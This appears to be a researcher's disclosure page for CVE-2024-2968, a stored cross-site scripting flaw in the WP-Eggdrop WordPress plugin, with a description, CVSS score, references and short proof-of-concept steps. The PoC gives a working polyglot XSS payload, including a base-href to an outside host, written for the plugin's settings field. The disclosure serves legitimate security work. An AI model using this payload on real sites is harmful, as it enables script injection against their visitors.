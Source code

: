 ```yaml
---
layout: page
title: CVE-2024-2968
subtitle: WP-Eggdrop <= 0.1 - Authenticated (Admin+) Stored Cross-Site Scripting
---
```

## Description
The WP-Eggdrop plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings in all versions up to, and including, 0.1 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N

## Affected Version
    <= 0.1

## PoC :
- Go to Settings/WP-Eggdrop Settings
- Input payload JavaScript://%0A/*?'/*\\'/*"/*\\"/*`/*\\`/*')/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(confirm)(1331+6)}//><Base/Href=//ener1-s3c.github.io/\\76-->
- Save & payload executed.

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-eggdrop/wp-eggdrop-01-authenticated-admin-stored-cross-site-scripting
- https://plugins.trac.wordpress.org/browser/wp-eggdrop/trunk/wp-eggdrop.php#L215
- https://www.cve.org/CVERecord?id=CVE-2024-2968
- https://nvd.nist.gov/vuln/detail/CVE-2024-2968


